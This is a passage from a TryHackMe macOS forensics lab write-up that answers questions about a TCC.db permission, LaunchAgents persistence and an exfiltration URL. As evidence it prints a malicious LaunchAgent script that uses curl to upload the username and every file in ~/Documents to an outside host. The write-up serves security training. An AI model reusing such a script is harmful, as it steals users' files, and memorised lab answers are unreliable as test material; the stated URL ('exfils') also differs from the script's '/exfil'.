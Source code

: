 ```bash
]
```

<br>

> 1.7. <em>What is the human-friendly name for the permission the user explicitly granted for the application??</em><br><a id='1.7'></a>
>> <strong><code>Full Disk Access</code></strong><br>
<p></p>

```bash
root@tryhackme:/home/ubuntu/mac/root/Users/jake/Library/Application Support/com.apple.TCC# ls
TCC.db
root@tryhackme:/home/ubuntu/mac/root/Users/jake/Library/Application Support/com.apple.TCC# sqlitebrowser TCC.db
```

![image](https://github.com/user-attachments/assets/d591d90d-afbb-4ac9-868f-190cbd86cc28)

![image](https://github.com/user-attachments/assets/b4918222-b69e-4ab4-8953-b5a7f09ed250)

<br>

> 1.8. <em>Which feature of the OS did the attacker use to run their application at startup persistently?</em><br><a id='1.8'></a>
>> <strong><code>LaunchAgents</code></strong><br>
<p></p>

```bash
root@tryhackme:/home/ubuntu/mac/root/Library/Application Support/com.apple.TCC# ls
AdhocSignatureCache  REG.db  TCC.db
root@tryhackme:/home/ubuntu/mac/root/Library/Application Support/com.apple.TCC# cp TCC.db /home/ubuntu/TCC.db
root@tryhackme:/home/ubuntu/mac/root/Library/Application Support/com.apple.TCC# 
```

<br>

> 1.9. <em>What was the URL to which the application was exfiltrating data?</em><br><a id='1.9'></a>
>> <strong><code>http://techthm.thm/exfils</code></strong><br>
<p></p>

```bash
root@tryhackme:/home/ubuntu/mac/root/Users/jake/Library/LaunchAgents# cat MeetMeLive.sh
#!/bin/bash

curl -s -X POST http://techthm.thm/exfil -d "user=$(whoami)&time=$(date)"
find ~/Documents -type f | while read file; do
    curl -s -X POST http://techthm.thm/exfil -F "file=@$file"
done
exit 0
```

<br>
<br>

